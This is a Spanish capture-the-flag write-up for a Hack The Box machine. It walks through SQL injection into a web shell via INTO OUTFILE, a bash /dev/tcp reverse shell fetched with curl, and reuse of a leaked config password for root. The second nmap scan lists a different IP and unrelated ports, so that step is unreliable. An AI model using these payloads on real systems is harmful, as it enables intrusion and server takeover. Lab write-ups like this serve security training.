




## Información Básica

### Técnicas vistas

- SQLI (Error Based)  
- SQLI -> RCE (INTO OUTFILE)  
- Information Leakage

### Preparación

- eJPT  
- eWPT

***

## Reconocimiento

### Nmap

Iniciaremos el escaneo de **Nmap** con la siguiente línea de comandos:

```bash wrap=false
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.116 -oG nmap/allPorts 
```

| Parámetro           | Descripción                                                                                  |
| ------------------- | -------------------------------------------------------------------------------------------- |
| `-p-`               | Escanea **todos los puertos** (1-65535).                                                     |
| `--open`            | Muestra **solo puertos abiertos**.                                                           |
| `-sS`               | Escaneo **SYN** (rápido y sigiloso).                                                         |
| `--min-rate 5000`   | Envía al menos **5000 paquetes por segundo** para acelerar el escaneo.                       |
| `-vvv`              | Máxima **verbosidad**, muestra más detalles en tiempo real.                                  |
| `-n`                | Evita resolución DNS.                                                                        |
| `-Pn`               | Asume que el host está activo, **sin hacer ping** previo.                                    |
| `10.10.11.116`       | Dirección IP objetivo.                                                                       |
| `-oG nmap/allPorts` | Guarda la salida en formato **grepable** para procesar con herramientas como `grep` o `awk`. |

```txt wrap=false

```

Ahora con la función **extractPorts**, extraeremos los puertos abiertos y nos los copiaremos al clipboard para hacer un escaneo más profundo:

```bash title="Función de S4vitar"
extractPorts () {
	ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')" 
	ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)" 
	echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
	echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
	echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
	echo $ports | tr -d '\n' | xclip -sel clip
	echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
	/bin/batcat --paging=never extractPorts.tmp
	rm extractPorts.tmp
}
```

```bash wrap=false
nmap -sVC -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49676,49688,49693,49715 10.10.11.174 -oN nmap/targeted
```

| Parámetro           | Descripción                                                                          |
| ------------------- | ------------------------------------------------------------------------------------ |
| `-sV`               | Detecta la **versión** de los servicios que están corriendo en los puertos abiertos. |
| `-C`                | Ejecuta **scripts NSE de detección de versiones y configuración**.                   |
| `-p`                | Escanea únicamente los puertos seleccionados.                                        |
| `10.10.11.174`       | Dirección IP objetivo.                                                               |
| `-oN nmap/targeted` | Guarda la salida en **formato normal** en el archivo indicado.                       |

```txt wrap=false

```

Al ver que tenemos un puerto **http** abierto vamos a hacer un reconocimiento de las tecnologías web que usa con **whatweb**.

```bash wrap=false
http://10.10.11.116 [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.48 (Debian)], IP[10.10.11.116], JQuery, PHP[7.4.23], Script, X-Powered-By[PHP/7.4.23]
```

Vemos que usa `PHP` principalmente junto con **Apache**. Nada más entrar a la web podemos ver un pequeño formulario de registro con 2 campos.


## Explotación

El campo del **usuario** no es vulnerable a **SQL Injection**, pero podemos interceptar la petición con **Burpsuite** y ver si el campo del "_País_" es vulnerable.



Bingo! Como podemos ver con una sola **'**, vemos que da un error, por lo cual es vulnerable. Vamos a intentar subir una **web shell** básica para **PHP**.

```php wrap=false
<?php system($_GET['cmd']); ?>
```

Así quedaría la inyección en la solicitud.

```txt wrap=false
username=sqli&country=Brazil' union all select "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/wshell.php" -- -
```




Perfecto, hemos conseguido la web shell funcional, por lo que vamos a intentar obtener una persistencia. Usaremos esta **Bash TCP reverse shell**.

```bash wrap=false
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Y luego la pasaremos al servidor mediante un servidor local con **python**.

```bash wrap=false
python -m http.server 80
```

Después en la **URL** pondremos lo siguiente para obtener la **shell**.

```bash wrap=false
<URL>?cmd=curl+<IP>:80/revshell.sh > revshell.sh
```

Una vez subido, para comprobar que todo ha ido bien, si ejecutamos un **ls** deberíamos poder ver la **revshell.sh.**&#x20;

Para ejecutarla nos pondremos en escucha primero por el puerto que hayamos escogido con **netcat**.

```bash wrap=false
nc -lvnp <PORT>
```

Simplemente la ejecutamos en el servidor.

```bash wrap=false
bash revshell.sh
```

Si todo ha ido bien, deberíamos tener la reverse shell.



Estando dentro podemos ver que hay un archivo **config.php**, así que veremos su contenido, puede ser importante.



Gracias al comando:

```bash wrap=false
cat /etc/passwd | grep "bash"
```

Podemos ver que solo existe el usuario **root**, que si probamos con la contraseña del **config.php** parecerá que se queda estancado, pero realmente ya hemos accedido al usuario y tenemos root. Ya solo queda obtener ambas flags del directorio `/home/<usuario>/user.txt` y `/root/root.txt`.

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/382)

---